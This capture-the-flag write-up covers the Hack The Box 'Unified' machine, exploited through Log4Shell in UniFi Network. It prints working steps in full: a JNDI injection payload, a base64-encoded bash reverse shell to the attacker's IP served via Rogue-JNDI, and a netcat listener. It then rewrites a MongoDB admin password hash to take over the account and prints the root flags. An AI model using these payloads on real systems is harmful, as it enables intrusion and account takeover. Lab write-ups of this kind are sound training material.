





# Unified

## Machine Details 

- **CTF:** Hack The Box
- **Category:** Tier 2

## Solution

#### 1. Which are the first four open ports?

```sh
$ nmap -A -T4 10.129.96.149
Starting Nmap 7.94 ( https://nmap.org ) at 2024-03-03 20:37 CET
Nmap scan report for 10.129.96.149
Host is up (0.091s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
6789/tcp open  ibm-db2-admin?
8080/tcp open  http-proxy
|_http-open-proxy: Proxy might be redirecting requests
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 431
|     Date: Sun, 03 Mar 2024 19:37:28 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 404 
|     Found</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 404 
|     Found</h1></body></html>
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 302 
|     Location: http://localhost:8080/manage
|     Content-Length: 0
|     Date: Sun, 03 Mar 2024 19:37:28 GMT
|     Connection: close
|   RTSPRequest, Socks5: 
|     HTTP/1.1 400 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 435
|     Date: Sun, 03 Mar 2024 19:37:28 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 400 
|     Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400 
|_    Request</h1></body></html>
8443/tcp open  ssl/nagios-nsca Nagios NSCA
| ssl-cert: Subject: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
| Subject Alternative Name: DNS:UniFi
| Not valid before: 2021-12-30T21:37:24
|_Not valid after:  2024-04-03T21:37:24
```

> 22,6789,8080,8443

#### 2. What is the title of the software that is running running on port 8443?

> UniFi Network

#### 3. What is the version of the software that is running?

Navigate to `https://10.129.96.149:8443`:



> 6.4.54

#### 4. What is the CVE for the identified vulnerability?

[Here](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi) more about it. *(Actually there is explored the whole way of pwning this machine)*

> CVE-2021-44228

#### 5. What protocol does JNDI leverage in the injection?

*(From the previous link)*

> LDAP

#### 6. What tool do we use to intercept the traffic, indicating the attack was successful?

> tcpdump

#### 7. What port do we need to inspect intercepted traffic for?

*(LDAP default port)*

> 389

#### 8. What port is the MongoDB service running on?

Let's get into the machine. First, we will intercept the login request in `Burp` and inject our payload:



The output shows us an error message stating that the payload is invalid, but despite the error message the payload is actually being executed. Let's start `tcpdump` on port 389, that will monitor the LDAP network traffic:

```sh
$ sudo tcpdump -i utun7 port 389
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on utun7, link-type NULL (BSD loopback), snapshot length 524288 bytes
20:54:54.535623 IP 10.129.96.149.42904 > 10.10.16.15.ldap: Flags [S], seq 3108192039, win 64240, options [mss 1335,sackOK,TS val 427599086 ecr 0,nop,wscale 7], length 0
20:54:54.535678 IP 10.10.16.15.ldap > 10.129.96.149.42904: Flags [R.], seq 0, ack 3108192040, win 0, length 0
```

The tcpdump output shows a connection being received on our machine. This proves that the application is indeed vulnerable since it is trying to connect back to us on the LDAP port 389. Next we will install `Rogue-JNDI`, which starts a local LDAP server and allows us to receive connections back from the vulnerable server and execute malicious code.:

```sh
git clone https://github.com/veracode-research/rogue-jndi
cd rogue-jndi
mvn package
```

This will create a `.jar` file in `rogue-jndi/target/` directory called `RogueJndi-1.1.jar`. Now we can construct our payload to pass into the `RogueJndi-1-1.jar` Java application:

```sh
$ echo 'bash -c bash -i >&/dev/tcp/10.10.16.15/9001 0>&1' | base64 
YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTYuMTUvOTAwMSAwPiYx
```

Next, we start `Rogue-JNDI`:

```sh
$ java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTYuMTUvOTAwMSAwPiYx}|{base64,-d}|{bash,-i}" --hostname "10.10.16.15"
+-+-+-+-+-+-+-+-+-+
|R|o|g|u|e|J|n|d|i|
+-+-+-+-+-+-+-+-+-+
Starting HTTP server on 0.0.0.0:8000
Starting LDAP server on 0.0.0.0:1389
Mapping ldap://10.10.16.15:1389/o=tomcat to artsploit.controllers.Tomcat
Mapping ldap://10.10.16.15:1389/o=websphere2 to artsploit.controllers.WebSphere2
Mapping ldap://10.10.16.15:1389/o=websphere2,jar=* to artsploit.controllers.WebSphere2
Mapping ldap://10.10.16.15:1389/o=groovy to artsploit.controllers.Groovy
Mapping ldap://10.10.16.15:1389/ to artsploit.controllers.RemoteReference
Mapping ldap://10.10.16.15:1389/o=reference to artsploit.controllers.RemoteReference
Mapping ldap://10.10.16.15:1389/o=websphere1 to artsploit.controllers.WebSphere1
Mapping ldap://10.10.16.15:1389/o=websphere1,wsdl=* to artsploit.controllers.WebSphere1
```

Now that the server is listening locally on port 389 , let's open another terminal and start a Netcat listener to capture the reverse shell.

```sh
nc -l 9001
``` 

Going back to our intercepted POST request, let's change the payload to $`{jndi:ldap://10.10.16.15:1389/o=tomcat}` and click Send. We get the shell:

```sh
$ nc -l 9001
whoami
unifi
```

We can upgrade the terminal shell using the following command:

```sh
script /dev/null -c bash
```

Let's find the MongoDB port:

```sh
unifi@unified:/usr/lib/unifi$ ps aux | grep mongo
ps aux | grep mongo
unifi         66  0.5  4.1 1103748 85424 ?       Sl   19:36   0:08 bin/mongod --dbpath /usr/lib/unifi/data/db --port 27117 --unixSocketPrefix /usr/lib/unifi/run --logRotate reopen --logappend --logpath /usr/lib/unifi/logs/mongod.log --pidfilepath /usr/lib/unifi/run/mongod.pid --bind_ip 127.0.0.1
unifi        894  0.0  0.0  11468   996 pts/0    S+   20:04   0:00 grep mongo
```

> 27117

#### 9. What is the default database name for UniFi applications?

> ace

#### 10. What is the function we use to enumerate users within the database in MongoDB?

> db.admin.find()

#### 11. What is the function we use to update users within the database in MongoDB?

> db.admin.update()

#### 12. What is the password for the root user?

Let's interact with the MongoDB:

```sh
unifi@unified:/usr/lib/unifi$ mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
<17 ace --eval "db.admin.find().forEach(printjson);"
MongoDB shell version v3.6.3
connecting to: mongodb://127.0.0.1:27117/ace
MongoDB server version: 3.6.3
{
	"_id" : ObjectId("61ce278f46e0fb0012d47ee4"),
	"name" : "administrator",
	"email" : "administrator@unified.htb",
	"x_shadow" : "$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.",
	...
```

We can't crack this hash, but we can replace it with the hash of our password. We can generate our new password [here](https://dangibbs.uk/tools/mkpasswd/):



And then replace it:

```sh
unifi@unified:/usr/lib/unifi$ mongo --port 27117 ace --eval 'db.admin.update({"_id": ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$KWvAHDwZcLAASJqt$VtTXaIulIslGxIXK7i66h7oI9qhbRs6Y.KoDT2ZmD0LJTIzY7BN9BeKs2qFygyyZ.dx767Nc7sqFr7nJweGTU1"}})'
<D0LJTIzY7BN9BeKs2qFygyyZ.dx767Nc7sqFr7nJweGTU1"}})'
MongoDB shell version v3.6.3
connecting to: mongodb://127.0.0.1:27117/ace
MongoDB server version: 3.6.3
WriteResult({ "nMatched" : 1, "nUpserted" : 0, "nModified" : 1 })
```

So now we can login to `https://10.129.96.149:8443` with `administrator:pass`:



Then navigate to `settings` -> `site` and scroll down to find the SSH Authentication setting. SSH authentication with a root password has been enabled:



> NotACrackablePassword4U2022

#### Submit user flag

Let's authenticate as root with `root:NotACrackablePassword4U2022`:

```sh
$ ssh root@10.129.96.149
root@unified:~$ cat /home/michael/user.txt
6ced1a6a89e666c0620cdb10262ba127
```

#### Submit root flag

```sh
root@unified:~$ cat root.txt 
e50bc93c75b634e4b272d2f771c33681
```

## Final Flags

> `user`: 6ced1a6a89e666c0620cdb10262ba127
> `root`: e50bc93c75b634e4b272d2f771c33681

*Created by [bu19akov](https://github.com/bu19akov)*